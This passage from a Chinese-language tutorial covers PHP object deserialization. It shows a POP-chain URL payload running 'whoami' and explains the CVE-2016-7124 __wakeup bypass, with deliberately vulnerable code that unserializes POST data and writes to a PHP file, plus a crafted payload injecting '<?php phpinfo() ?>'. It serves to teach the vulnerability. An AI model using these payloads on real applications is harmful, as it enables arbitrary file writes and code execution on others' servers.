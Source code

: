 ```php
class ClassName  {
 var $class ;
 function __construct(){
     $this->class=new Another();
 }
}
echo serialize(new ClassName());
```
 
然后提交`http://127.0.0.1/php-obj/pop.php?daiker=O:9:%22ClassName%22:1:){s:5:%22class%22;O:7:%22Another%22:1:{s:3:%22cmd%22;s:6:%22whoami%22;}}` 
 
## 0×06 CVE-2016-7124
 
我们看一个代码
 
<?php class object{

```php
public $var = "hello,world";

 function get_flag(){  
     return 'aaaa';  
 }
 function __wakeup(){
     $this->var = "hello,wold";
 }
 function __destruct(){
     $fp=fopen("F:\\phpStudy\\WWW\\unse\\hello.php","w");
     fputs($fp,$this->var);
     fclose($fp);
 }
}
$content = $_POST['content'];$object = unserialize($content);?>
```
 
对比上面的代码，可以发现多了
 
`function __wakeup(){ $this->var = "hello,wold"; }` 
 
这个魔术函数的作用就是在反序列化的时候会执行函数里面的东西，在这题，，我们就算更改了`var` 这个变量的值，wakeup还是会把他改回来。这时候就要用到一个CVE。谷歌发现了CVE-2016-7124。简单来说就是当序列化字符串中，如果表示对象属性个数的值大于真实的属性个数时就会跳过**wakeup的执行。参考 [https://bugs.php.net/bug.php?id=72663][4] ，某一种情况下，出错的对象不会被毁掉，会绕过__wakeup函数、引用其他的魔术方法。我们只要保证成员属性数目大于实际数目时可绕过wakeup方法，原来的序列化字符串是`O:6:"object":1:{s:3:"var";s:18:"<?php phpinfo() ?>";}` 把object后面的1更改为大于1的数字就可以了。。 
 

![][0] 
 

![][1] 
 
成功绕过
 
## 0×07 经典案例
 


[2]: http://php.net/manual/zh/function.serialize.php
[3]: http://php.net/manual/zh/function.unserialize.php
[4]: https://bugs.php.net/bug.php?id=72663
[0]: https://img1.tuicool.com/ZfqMf2b.png
[1]: https://img0.tuicool.com/BfQz2iz.png
